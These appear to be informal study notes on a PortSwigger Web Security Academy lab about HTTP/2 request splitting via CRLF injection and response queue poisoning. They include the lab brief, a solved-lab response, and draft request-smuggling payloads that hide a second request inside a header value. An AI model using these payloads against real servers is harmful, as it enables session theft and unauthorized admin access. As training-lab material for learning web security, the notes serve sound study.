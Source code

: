 and the result after mutiple rapid requests and itermittent waiting..

>HTTP/2 200 OK
>Content-Type: text/html; charset=utf-8
>Set-Cookie: session=7Kx2NAv5aXQNaYEcbo8iglPGV75qcLBV; Secure; HttpOnly; SameSite=None
>Content-Length: 10310


`       <div class=container>
            ``<h4>Congratulations, you solved the lab!</h4>
            ``<div>`

---


**HTTP/2 request splitting via CRLF injection**

(Should be simmilar to what James Kettle pulled on Atlassian
And remeber try out his python turbo intruder above)

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, delete the user `carlos` by using [response queue poisoning](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning) to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

#### Note

This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override)

Tip:
>To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the `Shift + Return` keys. Note that this feature is not available when you double-click on the header.


---


GET /  HTTP/1.1
Host:  accf1f361e00dc5fc008caa50018008a.web-security-academy.net
Foo: bar^~Host: accf1f361e00dc5fc008caa50018008a.web-security-academy.net  ^~^ GET /robots.txt HTTP/1.1*~Foo: bar


:method  GET
: path/
:authority  accf1f361e00dc5fc008caa50018008a.web-security-academy.net
foo bar  
      Host: accf1f361e00dc5fc008caa50018008a.web-security-academy.net
  
      GET /robots.txt HTTP/1.1  
      X-Ignore: x
